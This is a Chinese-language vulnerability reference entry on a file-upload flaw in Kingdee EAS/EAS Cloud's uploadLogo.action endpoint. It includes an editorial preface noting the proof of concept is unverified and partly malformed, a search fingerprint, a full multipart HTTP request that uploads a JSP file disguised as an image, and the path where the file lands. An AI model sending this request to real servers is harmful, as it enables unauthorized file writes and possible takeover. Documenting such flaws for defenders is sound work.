

# 金蝶EAS/EAS Cloud uploadLogo上传

## 条目说明

- 对象与具体问题：金蝶EAS/EAS Cloud；uploadLogo上传
- 版本、配置及部署条件：部署/版本未知；纯文本JSP落地
- 认证与权限前提：无Cookie示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 纯Test内容不能证明脚本执行或服务器控制；返回xxx.jsp缺重命名映射
- multipart chooseLanguage_top缺空行，boundary尾空格等需修复
- 测绘只有裸/easportal/不是完整引擎查询；OA产品泛称及补丁范围待核

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。凭据示例如含星号，仅保留首尾用于说明，不能直接使用。

## 技术资料与来源记录

### 漏洞描述

金蝶 EAS 及 EAS Cloud 是金蝶软件公司推出的一套企业级应用软件套件，旨在帮助企业实现全面的管理和业务流程优化。金蝶 EAS 及 EAS Cloud 在 uploadLogo.action 存在文件上传漏洞，攻击者可以利用文件上传漏洞执行恶意代码、写入后门、读取敏感文件，从而可能导致服务器受到攻击并被控制。

### 漏洞影响

金蝶OA EAS系统

### 网络测绘

```
"/easportal/"
```

### 漏洞复现

登陆页面


poc

```http
POST /plt_portal/setting/uploadLogo.action HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh;T2lkQm95X0c= Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Accept-Encoding: gzip
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarycxkT8bV6WLIUzm2p

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="chooseLanguage_top"
ch

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="dataCenter"

xx
------WebKitFormBoundarycxkT8bV6WLIUzm2p 
Content-Disposition: form-data; name="insId"

------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="type"

top
------WebKitFormBoundarycxkT8bV6WLIUzm2p
Content-Disposition: form-data; name="upload"; filename="text.jsp"
Content-Type: image/jpeg

Test
------WebKitFormBoundarycxkT8bV6WLIUzm2p--
```



```
/portal/res/file/upload/xxx.jsp
```

---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
